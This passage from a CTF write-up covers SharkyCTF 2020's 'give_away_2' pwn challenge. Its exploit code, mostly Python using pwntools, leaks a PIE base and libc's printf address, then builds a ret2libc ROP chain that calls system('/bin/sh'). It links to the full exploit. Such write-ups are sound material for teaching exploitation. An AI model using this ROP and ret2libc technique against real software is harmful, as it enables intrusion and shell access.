 after leak `printf` in libc, `vuln` function would be called again

```python
# leak
ru('Give away: ')
main = eval(rc(14))
info_addr('main',main)
text = main - 0x000864
info_addr('text',text)
printf = text + 0x880
printf_got = text + 0x200fc0
bssbase = elf.bss()+0x800 + text

# gadget
prdi = 0x0000000000000903 + text # pop rdi ; ret
prsi_r15 = 0x0000000000000901 + text

# rop1
offset = 40-8
payload = 'A'*offset
payload += p64(bssbase)
payload += p64(prdi) + p64(printf_got) + p64(printf)

rc()
sl(payload)
printf_libc = uu64(rc(6))
info_addr('printf_libc',printf_libc)
libcbase = printf_libc - libc.sym['printf']
info_addr('libcbase',libcbase)
system = libcbase + libc.sym['system']
info_addr('system',system)
binsh  = libcbase + libc.search('/bin/sh').next()
info_addr('binsh',binsh)
```

#### ret2libc

```python
# rop2
offset = 40-8
pl2 = 'A'*offset
pl2 += p64(bssbase)
pl2 += p64(prdi+1) + p64(prdi) + p64(binsh) + p64(system)
sl(pl2)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/give_away_2) 



## captain_hook (399pt)
### Description
